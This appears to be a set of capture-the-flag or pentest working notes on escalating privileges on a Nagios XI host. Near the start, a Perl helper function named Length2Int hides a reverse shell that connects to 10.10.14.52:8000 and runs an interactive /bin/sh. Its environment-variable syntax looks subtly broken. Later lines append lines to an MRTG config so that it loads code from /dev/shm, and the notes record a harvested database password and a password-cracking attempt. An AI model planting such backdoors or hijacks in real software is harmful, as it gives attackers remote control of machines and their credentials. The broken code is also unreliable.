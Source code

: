 MyConversions.pl
```perl
sub Length2Int {
	my $value = shift;
	use Socket;$i="$ENV{10.10.14.52}";$p=$ENV{8000};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
	return length( $value );
}
```


```
echo "LogFormat: rrdtool" | tee -a /etc/mrtg/conf.d/nvm.cfg
echo "WorkDir: /dev/shm/" | tee -a /etc/mrtg/conf.d/nvm.cfg
echo "PathAdd: /dev/shm/" | tee -a /etc/mrtg/conf.d/nvm.cfg
echo "LibAdd: /dev/shm/" | tee -a /etc/mrtg/conf.d/nvm.cfg
```
No sliver beacon back.

![](permonxi-syscfg.png)

No sudo wildcards

Ansible Vault hash exhausted on rockyou.txt 

`pspy64` - again 
![](rootischeckicmp.png)

![](pathestohijack.png)

You can write to other logged in users with [write.ul](https://manpages.debian.org/testing/bsdextrautils/write.ul.1.en.html):
```
/usr/bin/write.ul # SGID
```


`/usr/local/nagiosxi/html/config.inc.php` `pwd = n@gweb` - neither svc or root, probably nagiosadmin

`/tmp/memcalc`

`/store` - nothing is getting backup - rabbithole - no pspy 

```
/var/lib/mrtg
  Group nagcmd:
/usr/local/nagios/var/rw
```

```
-r-xr-x--- 1 root nagios 3820 Nov  9 10:44 /usr/local/nagiosxi/scripts/manage_ssl_config.sh
-r-xr-x--- 1 root nagios 7861 Nov  9 10:44 /usr/local/nagiosxi/scripts/backup_xi.sh
-r-xr-x--- 1 root nagios 9615 Nov  9 10:44 /usr/local/nagiosxi/scripts/pg2mysql/convert_nagiosxi_to_mysql.php
-r-xr-x--- 1 root nagios 6166 Nov  9 10:44 /usr/local/nagiosxi/scripts/reset_config_perms.sh
-r-xr-x--- 1 root nagios 1654 Nov  9 10:44 /usr/local/nagiosxi/scripts/repair_databases.sh
-r-xr-x--- 1 root nagios 1914 Nov  9 10:44 /usr/local/nagiosxi/scripts/change_timezone.sh
-r-xr-x--- 1 root nagios 1270 Nov  9 10:44 /usr/local/nagiosxi/scripts/import_xiconfig.php
-r-xr-x--- 1 root nagios 3917 Nov  9 10:44 /usr/local/nagiosxi/scripts/manage_services.sh
-r-xr-x--- 1 root nagios 4153 Nov  9 10:44 /usr/local/nagiosxi/scripts/repairmysql.sh
-r-xr-x--- 1 root nagios 2914 Nov  9 10:44 /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
-r-xr-x--- 1 root nagios 1534 Nov  9 10:44 /usr/local/nagiosxi/scripts/send_to_nls.php
-r-xr-x--- 1 root nagios 281115 Nov  9 10:44 /usr/local/nagiosxi/scripts/components/autodiscover_new.php
-r-xr-x--- 1 root nagios 16693 Nov  9 10:44 /usr/local/nagiosxi/scripts/components/getprofile.sh
-r-xr-x--- 1 root nagios 6296 Nov  9 10:44 /usr/local/nagiosxi/scripts/migrate/nagios_bundler.py
-r-xr-x--- 1 root nagios 8612 Nov  9 10:44 /usr/local/nagiosxi/scripts/migrate/migrate.php
-r-xr-x--- 1 root nagios 18851 Nov  9 10:44 /usr/local/nagiosxi/scripts/migrate/nagios_unbundler.py
```